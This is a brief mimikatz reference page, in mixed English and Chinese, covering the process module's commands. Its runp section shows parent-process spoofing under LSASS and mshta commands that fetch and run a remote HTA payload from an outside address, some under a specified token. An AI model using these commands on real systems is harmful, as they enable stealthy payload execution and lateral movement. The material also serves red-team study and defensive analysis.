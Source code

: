 # process

## exports

> lists all the exported functions from the DLLs each running process is using. If a```/pid ```is not specified, then exports for mimikatz.exe will be displayed.

```
mimikatz # process::exports

mimikatz # process::exports /pid:3516
```

## imports

> lists all the imported functions from the DLLs each running process is using. If a```/pid``` is not specified, then imports for mimikatz.exe will be displayed. 

```
mimikatz # process::imports
```

## list

列出所有运行的进程
```
mimikatz # process::list
```

## resume
 通过使用NtResumeProcess Windows Native API函数恢复一个暂停的进程。
```
mimikatz # process::resume notepad /pid:9212
```

## run

通过使用CreateProcessAsUser Win32 API函数创建一个进程。CreateEnvironmentBlock也被利用了

```
mimikatz # process::run notepad
```

## runp
在一个父进程下运行一个子进程（默认的父进程是LSASS.exe）。它也可用于横向移动和进程欺骗。
```
mimikatz # process::runp /run:notepad.exe

mimikatz # process::runp /run:notepad.exe /ppid:6388   #指定进程

mimikatz # process::runp /run:"mshta http://192.168.0.220:80/delivery.hta" /ppid:2948   # mshta攻击负载执行

mimikatz # process::runp /run:"mshta http://192.168.0.220:80/delivery.hta" /ppid:2948 /token:1  # 在指定令牌下执行mshta有效负载
```
